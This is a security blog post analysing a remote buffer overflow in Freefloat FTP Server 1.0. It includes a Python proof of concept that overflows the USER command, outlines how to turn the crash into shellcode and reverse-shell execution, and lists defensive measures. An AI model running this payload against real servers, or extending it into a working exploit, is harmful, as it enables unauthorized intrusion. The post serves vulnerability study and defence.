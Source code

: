 ```yaml
---
title: "[remote] Freefloat FTP Server 1.0 - Remote Buffer Overflow"
date: 2025-06-22
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security, Freefloat, FTP Server]
layout: post
image: ./assets/images/post-cover/FreefloatFTPServer1_0exploit.png
---
```


## Summary

Freefloat FTP Server 1.0 - Remote Buffer Overflow

## Technical Analysis

# Freefloat FTP Server 1.0 - Remote Buffer Overflow Vulnerability Analysis

## Technical Executive Summary

The Freefloat FTP Server 1.0 has been identified to contain a critical remote buffer overflow vulnerability. This flaw arises from improper handling of input data, allowing attackers to execute arbitrary code on the affected system. The vulnerability is exploitable remotely, making it a significant threat to systems running this version of the server software. Exploitation of this vulnerability could lead to a complete compromise of the targeted system, enabling unauthorized access, data exfiltration, or further network penetration.

## Proof of Concept (PoC)

Below is a Python script demonstrating a basic proof-of-concept exploit for the Freefloat FTP Server 1.0 remote buffer overflow vulnerability. This script sends a crafted payload to the FTP server to trigger the overflow condition.

```python
import socket

# Target configuration
target_ip = "192.168.1.100"
target_port = 21

# Crafting the payload
buffer = b"A" * 1000  # Adjust the size based on the overflow point
payload = b"USER " + buffer + b"\r\n"

# Establishing connection and sending payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.recv(1024)  # Receive the banner
    s.send(payload)
    print("[+] Payload sent successfully.")
except Exception as e:
    print(f"[-] Could not connect to the target: {e}")
finally:
    s.close()
```

**Note:** The buffer size and payload need to be adjusted based on the exact overflow point and the shellcode to be used for exploitation. This PoC is for educational purposes only.

## Offensive Security Insights

### Exploitation Techniques

1. **Buffer Overflow Fundamentals:**
   - The vulnerability stems from the lack of bounds checking on user inputs, leading to a buffer overflow. Attackers exploit this by overwriting the stack with a payload that includes a return address pointing to malicious code.

2. **Crafting the Exploit:**
   - Identify the exact point of overflow using tools like Metasploit's pattern_create and pattern_offset.
   - Inject shellcode into the payload that performs the desired actions (e.g., opening a reverse shell).
   - Use techniques such as NOP sleds to increase the reliability of the exploit.

3. **Remote Code Execution:**
   - Once the buffer is overflowed, control is transferred to the attacker's shellcode, allowing remote code execution.
   - This can be leveraged to escalate privileges, maintain persistence, or pivot to other systems within the network.

### Defensive Measures

1. **Patch Management:**
   - Ensure that all systems are running the latest version of Freefloat FTP Server or alternative software with known vulnerabilities patched.

2. **Input Validation:**
   - Implement robust input validation and sanitization to prevent buffer overflow conditions.
   - Utilize secure coding practices to ensure input data is properly handled.

3. **Network Security:**
   - Deploy intrusion detection and prevention systems (IDPS) to monitor and block suspicious traffic patterns associated with buffer overflow exploits.
   - Restrict access to the FTP server using firewall rules and VPNs to limit exposure to potential attackers.

4. **Security Hardening:**
   - Enable stack canaries, ASLR (Address Space Layout Randomization), and DEP (Data Execution Prevention) to mitigate the risk of successful buffer overflow attacks.
   - Regularly conduct security audits and penetration testing to identify and remediate vulnerabilities.

By understanding and addressing the technical details of this vulnerability, security professionals can better protect their systems against exploitation attempts.

📎 [Original Source](https://www.exploit-db.com/exploits/52323)

---

_This article was written by sleep33._
